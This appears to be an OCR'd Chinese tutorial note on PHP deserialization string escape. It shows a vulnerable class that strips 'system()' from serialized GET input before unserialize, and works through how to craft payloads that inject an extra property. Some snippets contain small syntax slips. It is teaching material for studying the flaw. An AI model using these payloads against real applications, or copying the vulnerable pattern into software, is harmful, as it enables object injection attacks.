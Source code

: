 ```php
//PoC 可以去掉一些没用的代码
class A{
    public $v1 = "abcsystem()";
    public $v2 = '123';;
    }
}
$data = serialize(new A($a,$b));

O:1:"A":2:{s:2:"v1";s:11:"abcsystem()";s:2:"v2";s:3:"123";}
拿到最初序列化后的代码
```

因为`$data = str_replace("system()","",$ data);`有这一段代码 所以所有的system() 关键字都会被替换成空字符
system()被替换了 值得注意的是前面的字符数量没有改变

```php
s:11:"abcsystem()";
s:11:"abc";
差了6个字符 所以不会反序列化不会成功
```

O:1:"A":2:{s:2:"v1";s:11:"**abc";s:2:"v**2";s:3:"123";}   

所以我们可以利用这点来构造一条语句 先尝试闭合
O:1:"A":2:{s:2:"v1";s:27:"**abc";s:2:"v2";s:21:"1234567**";s:2:"v3";N;}"}
这样子刚好可以造成引号里的被闭合了 并且和前面的字符数量对上 ( 3*8 + 3 )

继续优化代码就成了这样
O:1:"A":2:{s:2:"v1";s:27:"**abc";s:2:"v2";s:28:"1234567**";s:2:"v3";s:2:"SB";}";}

v1 : abcsystem()system()system()
v2 : 1234567";s:2:"v3";s:2:"SB";}";}
就完成了我们的PAYLOAD

字符串逃逸增加例题:

```php
class A{
    public $v1 = "abcsystem()system()system()";
    public $v2 = '123';

    public function __construct($arga,$argc){
        $this->v1 = $arga;
        $this->v2 = $argc;
    }
}
$a = $_GET['v1'];
$b = $_GET['v2'];
$data = serialize(new A($a,$b));
$data = str_replace("system()","",$data);
var_dump(unserialize($data));
```

```php
//优化代码
class A{
    public $v1 = 'ls';
    public $v2 = '123';
}
$data =  serialize(new A());
echo(serialize($data));
先拿到原代码序列化后的数据
O:1:"A":2:{s:2:"v1";s:2:"ls";s:2:"v2";s:3:"123";}
```
